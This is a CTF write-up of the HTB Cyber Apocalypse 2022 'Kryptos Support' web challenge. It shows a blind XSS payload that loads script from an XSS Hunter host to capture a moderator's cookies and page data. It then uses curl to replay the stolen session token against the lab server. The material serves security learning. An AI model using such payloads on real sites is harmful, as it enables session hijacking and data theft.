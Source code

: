 Kryptos Support
---------------
HTB CTF Cyber Apocalypse 2022

Category: Web

Points: 300

Difficulty: 1/4

# Challenge Info
```
The secret vault used by the Longhir's planet council, Kryptos, contains some very sensitive state secrets that Virgil 
and Ramona are after to prove the injustice performed by the commission. Ulysses performed an initial recon at their 
request and found a support portal for the vault. Can you take a look if you can infiltrate this system?
```

# Solution
This challenge deals with a blind cross-site scripting (XSS) vulnerability. What does that mean? Basically we can put JavaScript code into the `<textarea>` provided, however we won't see the output of said code. Workaround? I recently learned about a tool to beat blind XSS on TryHackMe (https://tryhackme.com/room/xssgi) called XSS Hunter (https://xsshunter.com/). Of course you could've built your own tool with JavaScript, but this is a lot faster and comes with some benefits. XSS Hunter has created payloads for you to test blind XSS. For Kryptos Support, I used `"><script src=https://pjs7593.xss.ht></script>`, `https://pjs7593.xss.ht` being a link XSS Hunter also provides unique to everyone. It worked!

XSS Hunter returned information about the webpage that couldn't be seen from inspecting. It obtains the following information:
- Screenshot of the page
- Vulnerable Page URL
- Execution Origin
- User IP Address
- Referer
- Victim User Agent
- Cookies
- DOM
- Injection Point (Raw HTTP Request)
- and the ability to generate a markdown report.

Now that we've confirmed it's blind XSS it's time to attack! From inspecting Kryptos Support's HTML pages and JavaScript pages we know there is a `/login` and `/tickets` page. Also thanks to XSS Hunter we've obtained the sessions ID of a user, `session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI2MTg0NjV9.LJ9MFwDABdTO-1XWXJ480YnguQozen8z17qncPPB64w`.

Execute`curl http://206.189.126.144:30887/tickets -b 'session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI2MTg0NjV9.LJ9MFwDABdTO-1XWXJ480YnguQozen8z17qncPPB64w'`
